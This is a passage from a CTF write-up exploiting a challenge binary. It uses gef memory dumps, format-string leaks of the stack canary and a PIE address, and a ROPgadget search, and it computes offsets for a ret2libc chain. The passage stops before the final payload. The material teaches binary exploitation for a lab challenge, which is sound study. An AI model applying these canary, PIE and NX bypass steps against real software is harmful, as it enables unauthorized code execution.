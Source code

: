 ```
gef➤  x/20gx $rsp
0x7fffffffde60: 0x4141414141414141      0x000a414141414141
0x7fffffffde70: 0x0000000000000040      0x00007ffff7fa76c0
0x7fffffffde80: 0x0000000000000000      0x00007ffff7e5a1e1
0x7fffffffde90: 0x0000000000000000      0x00007ffff7fa76c0
0x7fffffffdea0: 0x0000000000000000      0x0000000000000000
0x7fffffffdeb0: 0x00007ffff7fa84a0      0x00007ffff7e56d39
0x7fffffffdec0: 0x00007ffff7fa76c0      0x00007ffff7e4e5ed
0x7fffffffded0: 0x00005555555552e0      0x00007fffffffdf00
0x7fffffffdee0: 0x0000555555555120      0x7636f604229da000
0x7fffffffdef0: 0x00007fffffffdf00      0x00005555555552d5
gef➤  p $rbp-0x8
$1 = (void *) 0x7fffffffdee8
gef➤  x/gx $rbp -0x8
0x7fffffffdee8: 0x7636f604229da000
```

Testing a few times, i found out the offset of stack canary was at `"%23$llx"`

We can then leak the canary and buffer-overflow the return address but where do we return into? Remember that PIE and NX enabled  
My general attack was to leak `puts libc address` from the `GOT table` and then ret2libc. But in order to do that we need 3 things: `puts@plt` address, `puts@got.plt` address and a `ROP-Gadget` to prepare our `rdi` register before calling into `puts@plt` 

Because PIE was enabled we need to leak an address in the program and calculate with the offset to figure out those addresses we need. We will take advantage of this:
	
```
0x7fffffffded0: 0x00005555555552e0      0x00007fffffffdf00
0x7fffffffdee0: 0x0000555555555120      0x7636f604229da000
```
```
gef➤  x/2i 0x00005555555552e0
   0x5555555552e0 <__libc_csu_init>:    endbr64 
   0x5555555552e4 <__libc_csu_init+4>:  push   r15
```

We will leak the address of `__libc_csu_init` with the offset of `"%20$llx"` using format strings vulnerability  
We then use `ROPgadget` to find `pop rdi, ret`:
	
```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf]
└─$ ROPgadget --binary chall | grep "rdi"
0x000000000000100b : fldcw word ptr [rdi] ; add byte ptr [rax], al ; test rax, rax ; je 0x1016 ; call rax
0x0000000000001343 : pop rdi ; ret
```

We have these offsets to calculate:
	
```
0x1343 : pop rdi ; ret
0x12a5 <main+0>:     endbr64
0x10b0 <puts@plt>:   endbr64
0x3fa0 <puts@got.plt>:  0x0000000000001030
```
```
base_prog = init_addr - 0x12e0
puts_got = base_prog + 0x3fa0
puts_plt = base_prog + 0x10b0
main_addr = base_prog + 0x12a5
pop_rdi = base_prog + 0x1343
```
